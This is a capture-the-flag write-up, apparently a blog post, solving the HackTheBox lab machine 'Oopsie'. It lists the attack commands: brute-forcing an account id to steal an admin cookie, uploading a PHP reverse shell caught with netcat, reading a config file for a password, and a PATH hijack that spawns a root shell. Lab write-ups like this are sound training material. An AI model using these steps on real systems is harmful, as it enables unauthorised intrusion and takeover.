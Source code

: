 ```yaml
---
layout: post
title: HackTheBox Write-up &mdash; Oopsie
---
```


This machine is found at IP `10.10.10.28`, and was quite fun to hack.

# The Short Version

<ol>
<li>Enumerate ports via <code class="highlighter-rouge">nmap -sC -sV 10.10.10.28</code>.  Notice an HTTP server at port <code class="highlighter-rouge">80</code>;</li>
<li>Go to <code>http://10.10.10.28:80/cdn-cgi/login/</code>;</li>
<li>Log into the website using the username <code>admin</code> and the password <code>MEGACORP_4dm1n!!</code> from the previous (Archetype) box;</li>
<li>Clicking on the Uploads tab we see that we need to be a "super admin" to access this.  Clicking on the Accounts tab, we see our account there.  Intercepting the Accounts tab request in Burp Suite, we can brute-force the <code>id</code> value in the query parameter for this request, and at <code>id=30</code> we find a <code>super admin</code> account;</li>
<li>Using the super admin account's cookie parameters, now you can intercept the request to the Uploads tab and access it fully;</li>
<li>Using these super admin cookie parameters, you can upload a <a href="https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php">reverse shell file</a> to the server, but be sure to change the <a href="https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php#L49">IP address in the script</a> to yours (<code>tun0</code> on Linux; on my mac when connected to ethernet it was the <code>utun2</code> connection);</li>
<li>In a new terminal window, run <code class="highlighter-rouge">nc6 -nlvp 1234</code> (or just <code class="highlighter-rouge">nc</code> on Linux);</li>
<li>Now you want to, in a new terminal window, <code class="highlighter-rouge">curl</code> <code>http://10.10.10.28/uploads/php-reverse-shell.php</code>.  This will activate the listener in your other window;</li>
<li>In the listener window, you now have a web shell.  To turn it into a better terminal, run <div class="language-bash highlighter-rouge"><div class="highlight"><pre class="highlight"><code>python3 <span class="nt">-c</span> <span class="s1">'import pty; pty.spawn("/bin/bash")'</span>
</code></pre></div></div>;</li>
<li>Run <code class="highlighter-rouge">cat /var/www/html/cdn-cgi/login/db.php</code> to get a user's login information: <code>robert</code>, whose password is <code>M3g4C0rpUs3r!</code>.  We can login as Robert using <code class="highlighter-rouge">su robert</code>;</li>
<li>Run <code class="highlighter-rouge">cat $HOME/user.txt</code> to get the user flag!;</li>
<li>Run <code class="highlighter-rouge">cd /tmp; export PATH=/tmp:$PATH; echo '/bin/bash' > cat && chmod +x cat</code>.  This will create a <code class="highlighter-rouge">cat</code> executable that takes precedence in <code class="highlighter-rouge">PATH</code>, but this executable will spawn a bash instance;</li>
<li>Now when we go to run <code class="highlighter-rouge">bugtracker</code>, a root shell will spawn;</li>
<li>Finally, run <code class="highlighter-rouge">PATH=$(getconf PATH) && cat /root/root.txt</code> to capture the root flag!</li>
</ol>
